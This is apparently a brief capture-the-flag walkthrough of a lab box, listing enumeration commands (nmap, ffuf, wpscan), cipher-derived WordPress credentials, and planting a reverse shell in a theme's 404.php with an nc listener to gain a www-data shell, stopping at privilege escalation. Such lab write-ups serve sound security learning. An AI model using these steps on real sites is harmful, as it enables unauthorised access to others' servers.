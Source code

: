 ### NMAP  
nmap -sV 10.10.197.5 -o nmap.txt  
port -> 21,22,80  
ffuf -u http://10.10.197.5/FUZZ -w /usr/share/wordlists/dirb/common.txt  
http://10.10.197.5/wordpress/   
http://10.10.197.5/hackathon/  
sudo docker run -it --rm wpscanteam/wpscan --url http://10.10.197.5/wordpress/wp-login.php --enumerate u  
/hackathon-> view source  
http://10.10.55.80/wordpress/  
we find a cipher and key  
https://cryptii.com/pipes/vigenere-cipher   
we can see a blog by user elyana  
Login to http://10.10.55.80/wordpress/wp-login/  with user elyana  
http://10.10.55.80/wordpress/wp-admin/media-new.php  -> unable to upload any php file with modifications in extension  
http://10.10.55.80/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.5  we found this link in source code  
http://10.10.55.80/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty  -> paste reverse shell here and then  
http://10.10.55.80/wordpress/wp-content/themes/twentytwenty/404.php  
start nc -lnvp port  
we get shell as www-data  
user.txt  permission denied  
find / -user elyana 2>/dev/null  
 









